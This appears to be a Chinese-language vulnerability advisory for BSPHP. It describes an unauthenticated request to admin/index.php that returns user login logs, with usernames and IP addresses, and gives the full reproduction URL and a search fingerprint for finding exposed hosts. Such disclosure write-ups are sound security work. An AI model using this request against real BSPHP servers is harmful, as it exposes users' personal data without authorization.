 # BSPHP index.php 未授权访问 信息泄露漏洞

## 漏洞描述

BSPHP 存在未授权访问 泄露用户 IP 和 账户名信息

## 漏洞影响

```
BSPHP
```

## 网络测绘

```
"BSPHP"
```

## 漏洞复现

访问如下URL，泄露用户名与登录IP

```plain
http://xxx.xxx.xxx.xxx/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0‘
```

![](./images/202202162317323.png)